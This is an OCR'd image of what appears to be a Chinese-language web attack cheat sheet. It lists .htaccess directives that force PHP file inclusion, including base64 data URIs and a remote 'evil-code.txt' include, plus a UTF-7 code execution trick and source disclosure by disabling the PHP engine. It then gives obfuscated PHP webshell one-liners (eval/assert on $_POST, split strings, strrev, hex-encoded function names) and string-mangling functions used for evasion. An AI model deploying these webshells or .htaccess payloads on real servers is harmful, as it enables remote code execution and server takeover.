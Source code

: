 4.1.6.3. file inclusion
- php_flag allow_url_include 1 
- php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw== 
- #php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B 
- #php_value auto_append_file https://sektioneins.de/evil-code.txt


---
4.1.6.4. code execution with UTF-7

- php_flag zend.multibyte 1 
- php_value zend.script_encoding "UTF-7" 
- php_value auto_append_file .htaccess 
- #+ADw?php phpinfo()+ADs


---
4.1.6.5. Source code disclosure

php_flag engine 0

---
4.1.7. WebShell

4.1.7.1. 常见变形

- GLOBALS

eval($GLOBALS['_POST']['op']); 
- $_FILE 

eval($_FILE['name']); 
- 拆分 

assert(${"_PO"."ST"} ['sz']); 
- 动态函数执行 

$k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);

- create_function 

$function = create_function('$code',strrev('lave').'('.strrev('TEG_$').'["code"]);');$function(); 

- preg_replace 
- rot13 
- base64 
- 进制转化 
"\x62\x61\163\x65\x36\x34\137\144\145\x63\x6f\144\145" 
- 利用文件名

__FILE__


---
4.1.7.2. 字符串变形函数

- ucwords
- ucfirst
- trim
- substr_replace
- substr
- strtr
- strtoupper
- strtolower
- strtok
- str_rot13
